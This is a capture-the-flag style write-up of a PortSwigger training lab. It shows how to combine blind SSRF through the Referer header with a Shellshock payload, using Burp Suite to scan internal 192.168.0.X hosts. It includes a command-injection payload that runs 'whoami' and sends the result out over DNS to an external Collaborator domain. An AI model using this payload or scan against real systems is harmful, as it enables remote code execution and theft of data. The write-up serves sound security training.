 # Blind SSRF with Shellshock exploitation

## Description

[This site](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation) uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

## Reproduction and proof of concept

1. In Burp Suite Professional, install (or load) the "Collaborator Everywhere" extension from the BApp Store.

![SSRF](/_static/images/ssrf11.png)

2. Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the `Referer` header.
5. Observe that the HTTP interaction contains your `User-Agent` string within the HTTP request.

![SSRF](/_static/images/ssrf12.png)

6. Build the attack in Repeater, then send the request to the product page to Burp Intruder:
7. Go to the Collaborator tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:

```text
() { :; }; /usr/bin/nslookup $(whoami).burp-collab-subdomain
```
    
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Once in Intruder, click **Clear §**, change the `Referer` header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number 1), click **Add §**.

![SSRF](/_static/images/ssrf13.png)

10. Switch to the Payloads tab, change the payload type to Numbers, and enter `1`, `255`, and `1` in the **From** and **To** and **Step** boxes respectively.
11. Click **Start attack**.

![SSRF](/_static/images/ssrf14.png)

12. When the attack is finished, go back to the Collaborator tab, and click **Poll now**. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.

![SSRF](/_static/images/ssrf15.png)

If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.

13. To complete the lab, enter the name of the OS user as solution.

## Exploitability

An attacker will need to use the analytics functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port `8080` and use a Shellshock payload against the internal server to exfiltrate the name of the OS user. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, an attacker must use Burp Collaborator's default public server._
